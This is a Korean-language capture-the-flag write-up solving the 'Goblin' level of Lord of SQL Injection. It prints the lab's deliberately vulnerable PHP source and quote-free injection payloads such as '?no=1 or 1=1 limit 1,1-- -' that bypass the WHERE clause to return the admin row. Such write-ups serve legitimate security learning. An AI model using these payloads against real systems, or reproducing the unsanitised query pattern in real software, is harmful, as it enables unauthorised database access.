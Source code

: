 # Lord of SQL Injection No.3 - Goblin
## 문제 출제 의도
1. Single quote 없이 SQL문을 조작 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스코드
Goblin의 소스코드는 다음과 같다.
~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
    $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("goblin");
    highlight_file(__FILE__); 
?>
~~~
+ 소스 코드 분석<hr>
~~~
 if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
 if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~");
~~~
+ <p>Get 방식으로 no를 받으며 만약 입력된 값 중에 prob, _, ., (, )이 하나라도 있으면 No Hack ~_~ 이 출력된다.</p>
+ 또한 입력 받은 값 중에 ', ", `이 하나라도 있다면 No Quotes ~_~이 출력된다.

~~~
$query = "select id from prob_goblin where id='guest' and no={$_GET[no]}";
~~~
+ 입력받은 no가 query문에 안에 들어감으로 SQL Injection 공격이 가능한걸 알 수 있다.

~~~
if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
~~~
+ 만약 데이터베이스에서 받아온 id에 0 이 아닌 것이 들어 있다면 Hello 와 그 값을 출력한다.

~~~
if($result['id'] == 'admin') solve("goblin");
~~~
+ 만약 데이터베이스에서 받아온 id의 값이 'admin'이라면 문제 풀이에 성공한다.
## 문제 해결
+ 풀이 방법 <hr>
 **Get**방식으로 값을 입력받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다.
    ~~~
    ?no=1 or 1=1 limit 1,1-- -
    ~~~
    즉 where문을 무효화 시킨 다음 전체 값 중 2번째 행의 값만 가져오는 것이다.
    ?no=-1 or 1=1 을 입력하면 hello admin이라고 나오는데 이후 limit 값을 증가시켜 데이터베이스에는 3개의 행이 있다는 정보를 알수 있고 그 중 2번째 행의 id 값이 admin인 것을 알 수 있다.
    
    따라서 결과적으로 쿼리가
    ~~~
    select id from prob_goblin where id='guest' and no=-1 or 1=1 limit 1,1-- -
    ~~~
    이 되어 문제풀이에 성공한다.